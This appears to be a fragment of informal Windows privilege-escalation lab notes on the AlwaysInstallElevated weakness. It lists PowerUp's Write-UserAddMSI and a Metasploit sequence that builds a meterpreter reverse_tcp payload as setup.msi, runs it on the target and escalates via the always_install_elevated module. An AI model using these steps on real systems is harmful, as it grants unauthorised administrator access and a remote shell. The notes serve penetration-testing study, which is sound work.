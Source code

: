 **Part 1** 
Also from the output of PoweUp.ps1 we can see 
<br><br>
![](/Windows-Privilege-Escalation-Notes/windows_images/always_installed_Elevated-2.png)

Write-UserAddMSI has been enabled


tpye `Write-UserAddMSI` in cmd

<br><br>
![](/Windows-Privilege-Escalation-Notes/windows_images/Always_installed_privileges-3.png)


we can see a MSI file has been enabled which increases a privs to admin


Part 2

same in msfconsole 
1) use exploit/multi/handler/
2) set payload msfvenom -p windows/meterpreter/reverse_tcp lhost=IP -f msi  -o setup.msi  
3) run


**go to windows machine locate the file on browser and just run the file no need to save only run**


**IF the shell is low level user and we have a meterpreter session open use 
exploit/local/windows/always_install_elevated set session and run**


